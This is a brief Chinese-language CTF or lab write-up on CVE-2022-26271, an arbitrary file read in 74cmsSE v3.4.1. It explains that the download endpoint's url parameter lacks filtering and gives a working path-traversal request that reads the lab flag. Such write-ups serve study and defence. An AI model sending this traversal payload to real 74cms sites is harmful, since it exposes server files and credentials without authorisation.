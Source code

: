 ## 1. 漏洞介绍
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2022-26271)
[【CVE-2022-26271】:74cmsSEv3.4.1 Arbitrary File Read Vulnerability · Issue #1 · N1ce759/74cmsSE-Arbitrary-File-Reading · GitHub](https://github.com/N1ce759/74cmsSE-Arbitrary-File-Reading/issues/1)
## 2. 漏洞分析和复现
[【CVE-2022-26271】:74cmsSEv3.4.1 Arbitrary File Read Vulnerability · Issue #1 · N1ce759/74cmsSE-Arbitrary-File-Reading · GitHub](https://github.com/N1ce759/74cmsSE-Arbitrary-File-Reading/issues/1)

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309061127116.png)

根据漏洞代码可知，对输入的 url 参数没做过滤和权限校验等安全操作，为此我们可以通过对 url 这个参数尝试读取flag，另外name参数是输出文件名【即本地保存的名字，操作下就明白了】，经测试下面url可读出flag
`http://eci-2zeguqesv3v8irc4r323.cloudeci1.ichunqiu.com/index/download/index?name=flag.txt&url=../../../../../../flag` 

![2.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309061130893.jpg)
